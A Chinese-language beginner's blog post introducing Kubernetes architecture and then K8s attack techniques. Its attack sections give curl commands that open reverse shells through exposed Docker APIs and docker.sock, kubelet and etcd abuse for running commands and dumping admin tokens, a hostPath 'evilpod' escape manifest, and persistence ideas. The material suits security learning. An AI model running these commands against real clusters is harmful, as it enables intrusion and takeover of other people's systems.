## K8s 安全入门学习扫盲贴

- - -

## [0x00 云](#toc_0x00)

> 云的定义看似模糊，但本质上，它是一个用于描述全球服务器网络的术语，每个服务器都有一个独特的功能。云不是一个物理实体，而是一个庞大的全球远程服务器网络，它们连接在一起，旨在作为单一的生态系统运行。这些服务器设计用于存储和管理数据、运行应用程序，或者交付内容/服务（如视频短片、Web 邮件、办公室生产力软件或社交媒体）。不是从本地或个人计算机访问文件和数据，而是通过任何支持 Internet 的设备在线访问 - 这些信息在必要时随时随地可用。
> 
> 企业采用 4 种不同的方法部署云资源。存在一个[公有云](https://azure.microsoft.com/zh-cn/overview/what-is-a-public-cloud/)，它通过 Internet 共享资源并向公众提供服务；一个[私有云](https://azure.microsoft.com/zh-cn/overview/what-is-a-private-cloud/)，它不进行共享且经由通常本地托管的私有内部网络提供服务；一个[混合云](https://azure.microsoft.com/zh-cn/overview/what-is-hybrid-cloud-computing/)，它根据其目的在公有云和私有云之间共享服务；以及一个社区云，它仅在组织之间（例如与政府机构）共享资源。

《云是什么 - 定义 - Microsoft Azure》

## [0x01 何为 k8s？](#toc_0x01-k8s)

k8s 即 Kubernetes。  
其为 google 开发来被用于容器管理的开源应用程序，可帮助创建和管理应用程序的容器化。  
用一个的例子来描述："当虚拟化容器 Docker 有太多要管理的时候，手动管理就会很麻烦，于是我们便可以通过 k8s 来简化我们的管理"

## [K8S 架构简述](#toc_k8s)

我们在上文已经知道，K8S 是用于管理虚拟化容器的一个应用系统，在这小节中会着重讲述 K8S 的架构、实现原理。

下图为 K8S 架构的概览：

[](https://storage.tttang.com/media/attachment/2022/03/12/d5769347-1a89-4240-8c19-496c08a2a60a.png)

k8s 主要由较少的 master 节点以及其对应的多个 Node 节点组成。master 用于对 Node 节点进行控制管理，一个 k8s 集群中至少要有一台 master 节点。

Master 节点中包含很多的组件，主要为如下

> *etcd*  
> 它存储集群中每个节点可以使用的配置信息。它是一个高可用性键值存储，可以在多个节点之间分布。只有 Kubernetes API 服务器可以访问它，因为它可能具有一些敏感信息。这是一个分布式键值存储，所有人都可以访问。  
> 简而言之：存储节点信息

*API server*  
Kubernetes 是一个 API 服务器，它使用 API 在集群上提供所有操作。API 服务器实现了一个接口，这意味着不同的工具和库可以轻松地与其进行通信。Kubeconfig 是与可用于通信的服务器端工具一起的软件包。它公开了 Kubernetes API  
简而言之：读取与解析请求指令的中枢

*Controller Manage*  
该组件负责调节群集状态并执行任务的大多数收集器。通常，可以将其视为在非终止循环中运行的守护程序，该守护程序负责收集信息并将其发送到 API 服务器。它致力于获取群集的共享状态，然后进行更改以使服务器的当前状态达到所需状态。关键控制器是复制控制器，端点控制器，名称空间控制器和服务帐户控制器。控制器管理器运行不同类型的控制器来处理节点，端点等。  
简而言之：维护 k8s 资源

*Scheduler*  
这是 Kubernetes master 的关键组件之一。它是主服务器中负责分配工作负载的服务。它负责跟踪群集节点上工作负载的利用率，然后将工作负载放在可用资源上并接受该工作负载。换句话说，这是负责将 Pod 分配给可用节点的机制。调度程序负责工作负载利用率，并将 Pod 分配给新节点。  
简而言之：负载均衡调度器

Node 节点也包含了很多组件，主要如下

> Docker  
> Docker 引擎，运行着容器的基础环境

kubelet  
在每个 node 节点都存在一份，主要来执行关于资源操作的指令，负责 pod 的维护。

kube-proxy  
代理服务，用于负载均衡，在多个 pod 之间做负载均衡

fluentd  
日志收集服务

pod  
pod 是 k8s 的最小服务单元，pod 内部才是容器，k8s 通过操作 pod 来操作容器。一个 Node 节点可以有多个 Pod

Pod 可以说是 Node 节点中最核心的部分，Pod 也是一个容器，它是一个"用来封装容器的容器"。一个 Pod 中往往会装载多个容器，这些容器共用一个虚拟环境，共享着网络和存储等资源。  
这些容器的资源共享以及相互交互都是由 pod 里面的 pause 容器来完成的，每初始化一个 pod 时便会生成一个 pause 容器。

[](https://storage.tttang.com/media/attachment/2022/03/12/f4a12925-600f-42b5-b2f9-132bbf80dd08.png)

## [搭建 K8S](#toc_k8s_1)

我是跟着这个文章来的，K8S 搭建很繁琐。。。

[https://www.updateweb.cn/zwfec/item-367.html](https://www.updateweb.cn/zwfec/item-367.html)

## [K8S 的基础概念](#toc_k8s_2)

ref:[https://kuboard.cn/learning/](https://kuboard.cn/learning/)(非常好的中文教程)

[https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/](https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/)(k8s 官方教程，有交互式操作界面，稍微有点不好的是有些地方没有中文)

### [部署——Deployment](#toc_deployment)

k8s 中的应用程序是通过 Deployment 来部署的，Deployment 来指导 k8s 完成应用程序的部署和更新维护。  
比如说，当 Deployment 在部署应用时，master 节点会选择最合适的节点创建包含相应 Container（容器）的 POD  
又比如说，Deployment 会监控应用程序实例，当运行应用程序的工作节点宕机时，它将会在判断集群中最适宜重新部署的工作节点，并在其上面重新创建新的实例（新创建的应用程序的 POD ip 和 pod 名会与之前的不同）。

[](https://storage.tttang.com/media/attachment/2022/03/12/8dc81e35-b7a6-4d5e-9f6d-4a1ff8841dfb.png)

相关命令：

```plain
# 查看 Deployment
kubectl get deployments

# 查看 Pod
kubectl get pods

#根据 yaml 文件部署
kubectl apply -f nginx-deployment.yaml


一个 yaml 文件差不多就长这样
apiVersion: apps/v1  #与 k8s 集群版本有关，使用 kubectl api-versions 即可查看当前集群支持的版本
kind: Deployment  #该配置的类型，我们使用的是 Deployment
metadata:          #译名为元数据，即 Deployment 的一些基本属性和信息
  name: nginx-deployment  #Deployment 的名称
  labels:      #标签，可以灵活定位一个或多个资源，其中 key 和 value 均可自定义，可以定义多组，目前不需要理解
    app: nginx  #为该 Deployment 设置 key 为 app，value 为 nginx 的标签
spec:          #这是关于该 Deployment 的描述，可以理解为你期待该 Deployment 在 k8s 中如何使用
  replicas: 1  #使用该 Deployment 创建一个应用程序实例
  selector:      #标签选择器，与上面的标签共同作用，目前不需要理解
    matchLabels: #选择包含标签 app:nginx 的资源
      app: nginx
  template:      #这是选择或创建的 Pod 的模板
    metadata:  #Pod 的元数据
      labels:  #Pod 的标签，上面的 selector 即选择包含标签 app:nginx 的 Pod
        app: nginx
    spec:      #期望 Pod 实现的功能（即在 pod 中部署）
      containers:  #生成 container，与 docker 中的 container 是同一种
      - name: nginx  #container 的名称
        image: nginx:1.7.9  #使用镜像 nginx:1.7.9 创建 container，该 container 默认 80 端口可访问
```

### [POD 与 Node](#toc_podnode)

[](https://storage.tttang.com/media/attachment/2022/03/12/c8929095-2405-4c2b-9f8e-90ef45e5b070.png)

一个 POD 可以包含多个容器，这些容器共享着 POD 上的资源（如网络 IP，存储空间等）  
POD 是集群上最基础的单元  
每个 POD 对与其对应的节点 Node 绑定，一个 POD 对应着一个 IP。

[](https://storage.tttang.com/media/attachment/2022/03/12/707fb2f7-83d4-443f-87e2-9694c2b58a15.png)

Pod 需要在 Node 上运行，一个 Node 可以运行着多个 Pod，一个 Node 对应着集群中的一台机器。  
Node 节点由 Master 节点统一管理，Master 会根据各 Node 的资源可用程度自动调度 Pod 到不同的 Node 上。

再来说说 Node

一个节点的状态大致有以下的东西

-   Addresses
-   Conditions
-   Capacity and Allocatable
-   Info

> 地址

-   HostName：由节点的内核设置。可以通过 kubelet 的 —hostname-override 参数覆盖。
-   ExternalIP：通常是节点的可外部路由（从集群外可访问）的 IP 地址。
-   InternalIP：通常是节点的仅可在集群内部路由的 IP 地址。

> 状况 (conditions 字段描述了所有 Running 节点的状态)

-   Ready 如节点是健康的并已经准备好接收 Pod 则为 True；False 表示节点不健康而且不能接收 Pod；Unknown 表示节点控制器在最近 node-monitor-grace-period 期间（默认 40 秒）没有收到节点的消息
-   DiskPressure 为 True 则表示节点的空闲空间不足以用于添加新 Pod, 否则为 False
-   MemoryPressure 为 True 则表示节点存在内存压力，即节点内存可用量低，否则为 False
-   PIDPressure 为 True 则表示节点存在进程压力，即节点上进程过多；否则为 False
-   NetworkUnavailable 为 True 则表示节点网络配置不正确；否则为 False

> 容量与可分配

-   描述节点上的可用资源：CPU、内存和可以调度到节点上的 Pod 的个数上限。

> 信息

-   关于节点的一般性信息，例如内核版本、Kubernetes 版本（kubelet 和 kube-proxy 版本）、Docker 版本（如果使用了）和操作系统名称。这些信息由 kubelet 从节点上搜集而来。  
    相关命令

```plain
#获取类型为 Pod 的资源列表
kubectl get pods

#获取类型为 Node 的资源列表
kubectl get nodes

# kubectl describe 资源类型 资源名称

#查看名称为 nginx-XXXXXX 的 Pod 的信息
kubectl describe pod nginx-XXXXXX  

#查看名称为 nginx 的 Deployment 的信息
kubectl describe deployment nginx  


#查看名称为 nginx-pod-XXXXXXX 的 Pod 内的容器打印的日志
kubectl logs -f podname

#在 Pod 中运行命令
kubectl exec -it nginx-pod-xxxxxx /bin/bash
```

### [服务——Service](#toc_service)

通过以上内容我们知道，应用程序所在的 Pod 是一直变动着的，而每个 Pod 的 ip 又不一样，但是对于前端用户来说，应用程序的访问地址应该是唯一的才行。  
因此 k8s 提供了一个机制用来为前端屏蔽后端 Pod 变动带来的 IP 变动，这便是 Service。  
Service 为一系列有相同特征的 Pod（一个应用的 Pod 在不停变换，但是不论怎么变换这些 Pod 都有相同的特征）定义了一个统一的访问方式，  
Service 是通过标签选择器（**LabelSelector**）来识别有哪些 Pod 有相同特征（带有特定 Lable 标签的 POD，Lable 可以由用户设置，标签存在于所有 K8S 对象上并不仅仅局限于 Pod）可以编成一个容器组的。  
Service 有三种选项暴露应用程序的入口，可以通过设置应用程序配置文件中的 Service 项的 spec.type 值来调整

-   **ClusterIP**（默认）  
    在群集中的内部 IP 上公布服务，这种方式的 Service（服务）只在集群内部可以访问到
-   **NodePort**  
    使用 NAT 在集群中每个的同一端口上公布服务。这种方式下，可以通过访问集群中任意节点 + 端口号的方式访问服务 `<NodeIP>:<NodePort>`。此时 ClusterIP 的访问方式仍然可用。
-   **LoadBalancer**  
    在云环境中（需要云供应商可以支持）创建一个集群外部的负载均衡器，并为使用该负载均衡器的 IP 地址作为服务的访问地址。此时 ClusterIP 和 NodePort 的访问方式仍然可用。

[](https://storage.tttang.com/media/attachment/2022/03/12/c68b0e10-afc6-462b-a837-c16b5af11e12.png)

如上图，Service A 会将请求转发至内部 IP 地址为 10.10.10.1 的 POD 上，Service B 同理，会转发到 10.10.10.3、4、5 上

在每个节点上都有 Kube-proxy 服务，Service 使用其将链接路由到 Pod

### [伸缩——Scaling](#toc_scaling)

可以通过更改 deployment 配置文件中的 replicas 项来设置开启的 POD 数量  
当流量增多导致应用程序 POD 负载加重后可以通过修改 replicas 增加 POD 数量来减轻负担，访问流量将会通过负载均衡在多个 POD 之间转发

### [滚动更新——**Rolling Update**](#toc_rolling-update)

当我们想对已经部署的程序进行升级更新，但又不想让程序停止，就可以使用滚动更新来实现。

滚动更新通过使用新版本的 POD 逐步替代旧版本 POD 来实现零停机更新

滚动更新是 K8S 默认的更新方式

## [0x02 K8S 安全](#toc_0x02-k8s)

下图是 K8S 的一些攻击框架

[](https://storage.tttang.com/media/attachment/2022/03/12/a63415e1-5986-475b-bd0a-2c1fc1e0c0f0.png)

[](https://storage.tttang.com/media/attachment/2022/03/12/cd00f514-1da9-41f0-a224-eb6a106b2247.png)

本文就围绕着这个框架，叙述一些有用的攻击手法吧

## [初始访问](#toc_)

### [云账号 AK 泄露](#toc_ak)

在如今的云的大环境下，许多业务代码想要与云服务进行通信，就需要通过 accesskey 这个东西进行鉴权，鉴权通过后才能与云服务进行通信。  
通俗来讲，人想要访问一个服务，往往需要提供密码来进行身份验证；而代码想要访问一个云服务 API，则需要提供 accesskey 来进行身份验证。  
如果 accesskey 泄露了，我们便可以利用这个 accesskey 来与云服务通信，反弹个云主机的 shell 回来作为入口点慢慢往内打。

下面文章是关于云原生安全中 accesskey 安全更加详细的论述，阅读后可以对 accesskey 的概念有更深入的了解。

[https://www.freebuf.com/articles/web/287512.html](https://www.freebuf.com/articles/web/287512.html)

[https://www.freebuf.com/articles/web/255717.html](https://www.freebuf.com/articles/web/255717.html)

### [恶意镜像](#toc__1)

在 docker 中，容器的建立依赖于镜像，如果而如果 pull 得到的镜像是一个恶意镜像，或者 pull 得到的镜像本身就存在安全漏洞，便会带来安全风险

下图便是 dockerhub 上部署挖矿软件的恶意镜像，它会从 github 上下载恶意挖矿软件进行挖矿  
个人觉得此方法多用于钓鱼？

[](https://storage.tttang.com/media/attachment/2022/03/12/0d7cdee5-e885-4a93-9b20-436746b7a1fa.png)

### [API Server 未授权](#toc_api-server)

属于是 K8S 中的经典漏洞了

回顾一下 API Server 的作用，它在集群中被用于提供 API 来控制集群内部，如果我们能控制 API Server，就意味着我们可以通过它利用 kubectl 创建 Pod 并使用磁盘挂载技术获取 Node 节点控制权 (关于磁盘挂载获取节点 shell 的技术在后面的小节中再进行详细论述）。

API Server 可以在两个端口上提供了对外服务：8080（insecure-port，非安全端口）和 6443（secure-port，安全端口），其中 8080 端口提供 HTTP 服务且无需身份认证，6443 端口提供 HTTPS 服务且支持身份认证 (8080 和 6443 端口并不是固定的，是通过配置文件来控制的)。

#### [insecure-port 开启](#toc_insecure-port)

API Server 在 8080 端口上开放的服务应该是用于测试，但如果其在生存环境中被暴露出来，攻击者便可以利用此端口进行对集群的攻击。

但是利用 API Server 的 8080 端口进行未授权活动的前提条件略显苛刻（配置失当 + 版本较低），8080 端口服务是默认不启动的，但如果用户在 `/etc/kubernets/manifests/kube-apiserver.yaml` 中有 `--insecure-port=8080`配置项，那就启动了非安全端口，有了安全风险。

注：1.20 版本后该选项已无效化

[](https://storage.tttang.com/media/attachment/2022/03/12/299aa09e-5fd8-4a9f-ad98-fdceb248da93.png)

环境前提：

```plain
step1:进入 cd /etc/kubernetes/manifests/

step2: 修改 api-kube.conf

添加 - -–insecure-port=8080
添加 - -–insecure-bind-address=0.0.0.0

Kubelet 会监听该文件的变化，当您修改了 /etc/kubernetes/manifests/kube-apiserver.yaml 文件之后，
kubelet 将自动终止原有的 kube-apiserver-{nodename} 的 Pod，并自动创建一个使用了新配置参数的 Pod 作为替代。
```

[](https://storage.tttang.com/media/attachment/2022/03/12/dd05774d-b504-4442-a059-e78a723ede13.png)

#### [secure-port 配置错误](#toc_secure-port)

若我们不带任何凭证的访问 API server 的 secure-port 端口，默认会被服务器标记为 system:anonymous 用户。  
一般来说 system:anonymous 用户权限是很低的，但是如果运维人员管理失当，吧 system:anonymous 用户绑定到了 cluster-admin 用户组，那么就意味着 secure-port 允许匿名用户以管理员权限向集群下达命令。（也就是 secure-port 变成某种意义上的 insecure-port 了）

复现：

```plain
kubectl -s https://192.168.111.20:6443/ --insecure-skip-tls-verify=true get nodes  (192.168.111.20:6443 是 master 节点上 apiserver 的 secure-port)
然后提示输入账户密码，随便乱输就行
```

正常情况应该是这样

[](https://storage.tttang.com/media/attachment/2022/03/12/a3dd20ae-f6ec-437d-a14e-baad98a5f3ec.png)

但如果 secure-port 配置失当出现了未授权，就会这样

[](https://storage.tttang.com/media/attachment/2022/03/12/b175c841-06d2-486a-b7db-c088bb522968.png)

### [configfile 泄露](#toc_configfile)

k8s configfile 配置文件中可能会有 api-server 登陆凭证等敏感信息，如果获取到了集群 configfile 内容（如泄露在 github），将会对集群内部安全造成巨大影响。

这里引用阿里云社区的一张图

[](https://storage.tttang.com/media/attachment/2022/03/12/06713405-46d3-4868-8daf-f19265b799c8.png)

### [容器内部应用入侵](#toc__2)

顾名思义，容器内部应用就有问题（比如内部应用是 tomcat，且有 RCE 漏洞），从而就会导致黑客获取 Pod shell，拿到入口点

### [私有镜像库暴露](#toc__3)

举个例子，如果一个企业它的许多云上应用都是用的自建的私有镜像搭建的，有一天它私有镜像泄露出来了，我们就可以通过审计等手段去挖掘私有镜像中的漏洞，造成供应链打击。

### [docker.sock 利用](#toc_dockersock)

Docker 以 server-client 的形式工作，服务端叫 Docker daemon，客户端叫 docker client。  
Docker daemon 想调用 docker 指令，就需要通过 docker.sock 这个文件向 docker client 进行通讯。换句话说，Docker daemon 通过 docker.sock 这个文件去管理 docker 容器（如创建容器，容器内执行命令，查询容器状态等）。  
同时，Docker daemon 也可以通过配置将 docker.sock 暴露在端口上，一般情况下 2375 端口用于未认证的 HTTP 通信，2376 用于可信的 HTTPS 通信。

#### [公网暴露](#toc__4)

如果 docker daemon 2375 端口暴露在了公网上，那么便可以直接利用该端口控制 docker 容器，并通过新建容器配合磁盘挂载技术获取宿主机权限。

fofa 搜索

```plain
server="Docker" && port="2375"
```

可以发现有很多暴露在公网的 docker.sock，

[](https://storage.tttang.com/media/attachment/2022/03/12/f674af83-725e-46c4-bc14-fb7cd4b655f8.png)

我们选一个来试试水

可以发现是成功的调用了 API 查询了容器状态

[](https://storage.tttang.com/media/attachment/2022/03/12/6ac4bf7b-e165-41fd-97e2-a66b6dab57ef.png)

然后我们可以通过如下指令，在指定容器内部执行命令

```plain
curl -X POST "http://ip:2375/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'
```

获取到一个 id

[](https://storage.tttang.com/media/attachment/2022/03/12/b9dc7fba-24e1-49ca-b668-96fa7e8669ee.png)

然后请求这个 id，执行此命令

```plain
curl -X POST "http://ip:2375/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

就像这样：（图片引用自 freebuf）

[](https://storage.tttang.com/media/attachment/2022/03/12/d4fbd137-2fbf-413c-858b-3f2db625760e.png)

#### [直接利用现成的 docker.sock](#toc_dockersock_1)

如果我们入侵了一个 docker 容器，这个 docker 容器里面有 docker.sock(常用路径/var/run/docker.sock)，那么就可以直接利用此文件控制 docker daemon。

把上一小节的命令改改就行，加一个—unix-socket 参数。

```plain
curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'

curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

一般来说 docker.sock 是存在于 docker daemon 服务端的，但如果开发人员想在 docker 容器里运行 docker 命令，就需要把宿主机的 docker.sock 挂载到容器内部了，这就给了我们 docker 逃逸的可乘之机。

### [kubelet 未授权](#toc_kubelet)

kubelet 和 kubectl 的区别？

kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。

[](https://storage.tttang.com/media/attachment/2022/03/12/134a0e77-8b89-415b-842c-4cbb3b271541.png)

kubelet 对应的 API 端口默认在 10250，运行在集群中每台 Node 上，kubelet 的配置文件在 node 上的/var/lib/kubelet/config.yaml  
我们重点关注配置文件中的这两个选项：第一个选项用于设置 kubelet api 能否被匿名访问，第二个选项用于设置 kubelet api 访问是否需要经过 Api server 进行授权（这样即使匿名⽤户能够访问也不具备任何权限）。

[](https://storage.tttang.com/media/attachment/2022/03/12/a30672a1-cf3b-4f42-8256-0b754cbad27b.png)

在默认情况下，kubelet 配置文件就如上图所示，我们直接访问 kubelet 对应 API 端口会显示认证不通过

[](https://storage.tttang.com/media/attachment/2022/03/12/ed0464f2-c2f4-4727-ac51-8efa4451ded1.png)

我们将配置文件中，authentication-anonymous-enabled 改为 true，authorization-mode 改为 AlwaysAllow，再使用命令 systemctl restart kubelet 重启 kubelet，那么就可以实现 kubelet 未授权访问

[](https://storage.tttang.com/media/attachment/2022/03/12/d4f3e444-9f3d-4158-bd86-84941c374119.png)

```plain
关于 authorization-mode 还有以下的配置
--authorization-mode=ABAC 基于属性的访问控制（ABAC）模式允许你 使用本地文件配置策略。
--authorization-mode=RBAC 基于角色的访问控制（RBAC）模式允许你使用 Kubernetes API 创建和存储策略。
--authorization-mode=Webhook WebHook 是一种 HTTP 回调模式，允许你使用远程 REST 端点管理鉴权。
--authorization-mode=Node 节点鉴权是一种特殊用途的鉴权模式，专门对 kubelet 发出的 API 请求执行鉴权。
--authorization-mode=AlwaysDeny 该标志阻止所有请求。仅将此标志用于测试。
--authorization-mode=AlwaysAllow 此标志允许所有请求。仅在你不需要 API 请求 的鉴权时才使用此标志。
```

在我们发现 kubelet 未授权后，可以进行以下操作拿到入口点

#### [执行 Pod 内命令](#toc_pod)

如果有 kubelet 未授权，那就可以用以下命令在 Pod 内执行命令

```plain
curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"
```

其中的参数可以从 https://node\_ip:10250/pods 中获取

[](https://storage.tttang.com/media/attachment/2022/03/12/5aed9fc9-436e-49f4-84f8-869b34da6076.png)

可以直接回显命令结果，很方便

[](https://storage.tttang.com/media/attachment/2022/03/12/bc477654-631b-4825-ab17-83ac197937fe.png)

#### [获取容器内 service account 凭据](#toc_service-account)

如果能在 Pod 内执行命令，那么就可以获取 Pod 里 service account 的凭据，使用 Pod 上的 service account 凭据可以用来模拟 Pod 上的服务账户进行操作，具体利用方法见下面的小节。

[](https://storage.tttang.com/media/attachment/2022/03/12/05f8decd-181c-4f2f-823b-68146f484541.png)

### [etcd 未授权](#toc_etcd)

etcd 是 k8s 集群中的数据库组件，默认监听在 2379 端口，如果 2379 存在未授权，那么就可以通过 etcd 查询集群内管理员的 token，然后用这个 token 访问 api server 接管集群。

etcd 有 v2 和 v3 两个版本，k8s 用的是 v3 版本，所以我们在访问 etcd 的时候需要用命令 ETCDCTL\_API=3 来指定 etcd 版本。

我们想要利用 etcd 未授权，需要使用一个工具叫做 etcdctl，它是用来管理 etcd 数据库的，我们可以在 github 上下载它

[https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/)

"在启动 etcd 时，如果没有指定 --client-cert-auth 参数打开证书校验，并且没有通过 iptables / 防火墙等实施访问控制，etcd 的接口和数据就会直接暴露给外部黑客"——爱奇艺安全应急响应中心

复现环境我也懒得搭了，我们就在授权情况下来复现这个洞吧！（

首先，如果我们在没有证书文件的前提下直接访问 2375 端口，是调用不了 etcd 应用的，会提示 X509 证书错误。

```plain
ETCDCTL_API=3 ./etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only
```

我们需要将以下文件加入环境变量才能访问（如果有未授权，那么不用带证书都能访问）

```plain
  export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt
  export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt
  export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
```

#### [查询管理员 token](#toc_token)

图片引用自爱奇艺安全应急响应中心

我们可以直接在 etcd 里查询管理员的 token，然后使用该 token 配合 kubectl 指令接管集群。

```plain
etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
```

[](https://storage.tttang.com/media/attachment/2022/03/12/d876a643-6a23-4c59-b310-00f4fdd19226.png)

如果查询结果有敏感账户，我们便可以去获取他的 token

```plain
etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-55712
```

[](https://storage.tttang.com/media/attachment/2022/03/12/f4a6d3dc-4d2f-4305-8aee-0ebca21cc640.png)

拿到 token 以后，用 kubectl 接管集群

```plain
kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
```

## [执行](#toc__5)

### [\*目录挂载逃逸](#toc__6)

这个技术是综合了执行、持久化、权限提升的一个攻击方法，为了省事，就放在这里一块说了。

首先，在我们获取了 api server 控制权后，我们可以创建 Pod，并在容 Pod 内部执行命令。如果我们在创建 Pod 时，将 Node 节点的根目录挂载到 Pod 的某个目录下，由于我们能在 Pod 内部执行命令，所以我们可以修改挂载到 Pod 下的 Node 节点根目录中文件的内容，如果我们写入恶意 crontab、web shell、ssh 公钥，便可以从 Pod 逃逸到宿主机 Node，获取 Node 控制权。

具体复现如下

先创建一个恶意 Pod

```plain
首先我们创建恶意 Pod，可以直接创建 Pod，也可以用 Deployment 创建。
既然提到创建 Pod，那么就多提一句：直接创建 Pod 和用 Deployment 创建 Pod 的区别是什么？

Deployment 可以更方便的设置 Pod 的数量，方便 Pod 水平扩展。
Deployment 拥有更加灵活强大的升级、回滚功能，并且支持滚动更新。
使用 Deployment 升级 Pod 只需要定义 Pod 的最终状态，k8s 会为你执行必要的操作。

如果创建一个小玩意，那么直接创建 Pod 就行了，没必要用 deployment。
_______________________________________
用 Pod 创建
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /

__________________________________
用 deployment 创建
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx-test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: nginx
        name: container
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

将以上文本写入到一个 yaml 文件中，然后执行

```plain
kubectl apply -f xxxxx.yaml
如果是 api server 未授权打进去的，可能要通过-s 参数设置一下 api server 的 ip 和地址：kubectl -s http://master_ip:8080 command

这里再多嘴一句 kubectl apply 和 kubectl create 这两个命令的区别
两个命令都可以用于创建 pod，apply 更倾向于”维护资源“，可以用于更新已有 Pod；而 create 更倾向于”直接创建“，不管三七二十一给我创建就完事了
简而言之，当一个资源已经存在时，用 create 会报错，而 apply 不会报错
——————ref:https://stackoverflow.com/questions/47369351/kubectl-apply-vs-kubectl-create
```

恶意容器就创建好了

创建好了后使用命令 kubectl get pods 获取恶意 pod 的名字

然后使用命令 kubectl exec -it evilpodname /bin/bash 进入 pod 内部 shell，然后向挂载到 Pod 内部的 Node 根目录中写入恶意 crontab、ssh 公钥、webshell 即可拿到 node 的 shell。

大致流程一张图表示如下

[](https://storage.tttang.com/media/attachment/2022/03/11/d4b20b14-c752-4cb3-b14f-d53f2e5b3050.png)

### [利用 Service Account 连接 API Server 执行指令](#toc_service-accountapi-server)

k8s 有两种账户：用户账户和服务账户，用户账户被用于人与集群交互（如管理员管理集群），服务账户用于 Pod 与集群交互（如 Pod 调用 api server 提供的一些 API 进行一些活动）

如果我们入侵了一台有着高权限服务账户的 Pod，我们就可以用它对应的服务账户身份调用 api server 向集群下达命令。  
pod 的 serviceaccount 信息一般存放于/var/run/secrets/kubernetes.io/serviceaccount/目录下

但是默认的 user 或者 service account 并不具备任何权限

这是默认情况下，一个 pod 使用自身 service account(默认为当前命名空间的 default 账户) 去请求 api server 返回的结果，可以发现是没有权限的。

```plain
$ CA_CERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
$ TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
$ curl --cacert $CA_CERT -H "Authorization: Bearer $TOKEN" "https://192.168.111.20:6443/version/"

  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "version is forbidden: User \"system:serviceaccount:default:default\" cannot list resource \"version\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "version"
  },
  "code": 403
```

那么我现在创建一个高权限 service account 并使其与一个 Pod 相关联，来复现一下这个攻击手法

首先创建一个高权限 service account

```plain
kubectl create serviceaccount niubi #创建 service account：niubi
kubectl create clusterrolebinding cluster-admin-niubi  --clusterrole=cluster-admin --serviceaccount=default:niubi #把 niubi 放入集群管理员组，相当于给了它高权限
```

然后将 service account 与 pod 相关联

```plain
在创建 Pod 的 yaml 文件中的 spec 项中输入 serviceAccountName: niubi
```

[](https://storage.tttang.com/media/attachment/2022/03/11/6e961ef4-ce5b-43b7-9a57-9171e27f8e7d.png)

再试一下，发现可以调用 api server 了

[](https://storage.tttang.com/media/attachment/2022/03/11/9b505264-eaf5-43ab-88e6-556230de3988.png)

## [持久化](#toc__7)

这里的持久化是指如何在 Pod 中持久化、如何在 Node 中持久化、如何在集群中持久化。  
如何在 Node 中持久化，在上一小节中已经提到过一些：通过写入 crontab，ssh 公钥，webshell 实现，但个人觉得这几个手段与其说是持久化，不如说是权限提升更符合实际一点，因为这几个手段在实际渗透中都是为了从 Pod 逃逸出来获取 Node 权限。

同时，在 Pod，Node，Master 上做持久化，有大部分方法本质上是“如何在 linux 机器上做持久化”，而“如何在 linux 机器上做持久化”方法就太多了，这里就只着重于讲述在“云环境”里独有的持久化方法。

#### [在私有镜像库中植入后门（Pod 持久化）](#toc_pod_1)

如果接管了对方的私有镜像库，我们便可以直接在其对象 Dockerfile 中塞入恶意指令（反弹 shell 等）  
或者编辑镜像的文件层代码，将镜像中原始的可执行文件或链接库文件替换为精心构造的后门文件之后再次打包成新的镜像。

#### [修改核心组件访问权限（集群持久化）](#toc__8)

包括且不限于 更改配置暴露 apiserver 8080 端口、暴露 docker.sock、暴露未授权 etcd、暴露未授权 kubelet 等修改集群配置文件达到持久化的方法。

#### [shadow api server（集群持久化/cdk 工具利用）](#toc_shadow-api-servercdk)

部署一个额外的未授权且不记录日志的 api server 以供我们进行持久化。

我们可以用 github 上专门用于 k8s 渗透的工具 cdk（这个工具很屌）来做到这一点

[https://github.com/cdk-team/CDK/wiki/CDK-Home-CN](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

[https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver](https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver)

## [权限提升](#toc__9)

指从 pod 拿到 Node 的 shell，或者拿到集群控制权。

上面的小节提到过一些，比如 kubectl 未授权、docker.sock、挂载目录、高权限 Service account 等方法。

除此之外还有 Docker、k8s 的一些 CVE

